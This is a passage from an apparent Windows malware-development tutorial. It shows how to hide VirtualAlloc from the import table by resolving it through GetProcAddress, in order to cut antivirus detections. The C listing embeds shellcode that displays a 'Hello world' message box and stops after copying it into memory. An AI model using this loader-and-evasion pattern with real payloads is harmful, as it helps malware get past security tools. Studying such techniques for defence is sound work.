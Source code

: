 Side note : 40/70 engines detections on virus total 

### theory 

Let's try to hide **VirtualAlloc** declaration, we first need to find its [declaration](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc).

We first create global variable called *VirtualAlloc* (just a pointer), then we obtain address of VirtualAlloc with *GetProcAddress*.

### Hidden call 

```c 
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

LPVOID (WINAPI * pVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);

// our payload "Hello world" messagebox
unsigned char payload[] =
"\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
"\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
"\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
"\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
"\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
"\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
"\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
"\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
"\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
"\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
"\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
"\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
"\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
"\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
"\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
"\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
"\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
"\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
"\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
"\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
"\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
"\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
"\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
"\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
"\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
"\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
"\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
"\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
"\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";

int main(void) {
  void * payload_mem; // memory buffer for payload
  BOOL result;
  HANDLE thread_handle;
  DWORD oldprotect = 0;

  // Allocate memory buffer for payload
  pVirtualAlloc = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAlloc");
  payload_mem = pVirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
  
  // copy payload to buffer
  RtlMoveMemory(payload_mem, payload, sizeof(payload));
```